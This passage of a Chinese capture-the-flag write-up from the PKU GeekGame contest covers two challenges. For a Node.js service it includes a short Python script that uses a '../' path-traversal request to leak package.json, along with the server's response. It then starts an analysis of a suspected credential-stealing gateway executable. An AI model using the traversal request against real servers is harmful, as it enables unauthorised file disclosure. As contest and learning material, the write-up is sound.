 参考了[https://blog.csdn.net/keyball123/article/details/105169946](https://blog.csdn.net/keyball123/article/details/105169946)

### 9. Flag即服务

（只在二阶段做出第一问）

网页写明了后端是nodejs。众所周知nodejs项目根目录下都有一个package.json记录项目的重要信息（当然二阶段提示之后我才想到这一点。之前没写过nodejs，只是看过几个nodejs项目，这一点没留下深刻印象）

因为浏览器会对..作转义，因此我用python的http.client库构造了一个带..的URL勾出package.json文件

```python
import http.client as hc
conn = hc.HTTPSConnection("prob11-zg4fphs4.geekgame.pku.edu.cn")
conn.request("GET","/api/../package.json")

r1 = conn.getresponse()
print(r1.status, r1.reason)
# print(r1.getheaders(),'\n')
print(r1.read())
conn.close()
# 200 OK
# b'{"name":"demo-server","version":"1.0.0","description":"","scripts":{"start":"node --max-http-header-size=32768 start.js"},"author":"You","license":"WTFPL","dependencies":{"jsonaas-backend":"https://geekgame.pku.edu.cn/static/super-secret-jsonaas-backend-1.0.1.tgz"}}'
```

这个package.json中意外地包含了项目源码的地址，可以直接下载

> 复盘时想到，这个漏洞可能可以用来做压缩文件那个题，于是试了一下，返回400 Bad Request。后来谷歌才知道这个漏洞是nodejs某些特定版本才有的，来自express和nodejs不兼容的问题

getflag.js中读取了三个文件中的flag，并使用unlinkSync删除。index.js中，可以看出flag0的值就是``flag{${0.1+0.2}}``，这是一个格式字符串，因此我们需要返回0.1+0.2，js中默认为double类型，这个运算结果为0.30000000000000004，这也就是flag0的值

后面两个flag就不会了，flag1存在变量里，可能需要一个执行任意代码的漏洞。flag2因为被赋值掉，所以很可能要执行系统命令从硬盘里恢复，也可能存在nodejs内部的其他地方，但肯定也要执行任意代码，即使根据提示看了qs和path-to-regex文档也没有发现什么可以利用的点。期待其他大佬的writeup

## Binary

### 10. 诡异的网关

（二阶段插旗）

（考虑到涉及文件的变化，首先建立git仓库便于回滚）

直接打开exe（一般来说恶意软件不建议这么做）

考虑到提示，发现一个保存的用户名为flag，密码未知，推定密码就是flag

尝试输入自己的账密（假的）连接，发现会弹出两种提示，密码过短或者账号被封。flag的账密也是账号被封。自己的账密不能被保存。

根据提示，首先尝试观察文件，发现删除config.xml不会影响功能，删除dll会导致程序无法启动，删除config会导致启动后用户名无法正常加载。

尝试forget flag账户发现config文件内容发生变成了类似config.xml的形态，但是删除config.xml不影响，说明数据是存在exe文件中或者网络IO。想到网络IO是很自然的，首先这是个网关，因此必须要向its.pku.edu.cn通信；其次这是个恶意软件，从攻击者角度是希望账密能够通过网络IO传输到自己的服务器上。为了验证，我还用任务管理器里的资源监视器查看网络活动，果然在点击连接时，出现了向its.pku.edu.cn和ns.pku.edu.cn通信的流量。
